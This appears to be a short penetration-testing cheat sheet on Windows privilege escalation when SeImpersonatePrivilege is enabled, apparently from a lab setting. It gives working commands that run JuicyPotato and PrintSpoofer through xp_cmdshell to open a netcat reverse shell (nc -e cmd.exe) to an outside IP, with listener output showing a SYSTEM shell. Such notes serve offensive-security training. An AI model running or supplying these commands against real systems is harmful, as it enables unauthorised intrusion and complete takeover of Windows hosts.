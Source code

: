 This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user.

Check `whoami /priv`:

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State    

============================= ========================================= ======== 

SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled   
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled   
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled    
SeManageVolumePrivilege       Perform volume maintenance tasks          Enabled    
SeImpersonatePrivilege        Impersonate a client after authentication Enabled    
SeCreateGlobalPrivilege       Create global objects                     Enabled    
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

With the `SeImpersonatePrivilege` privilege enabled, it is possible to perform privilege escalation:

```bash
xp_cmdshell c:\tools\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\tools\nc.exe 10.10.15.35 8443 -e cmd.exe" -t *
```

```bash
sudo nc -lvp 8443
Listening on 0.0.0.0 8443
Connection received on 10.129.224.155 49736
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami 
whoami 
nt authority\system
```

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards.

Newer version of Windows, `PrintSpoofer/RougePotato/GodPotato` should work:

```bash
xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe 10.10.15.35 8443 -e cmd"
```
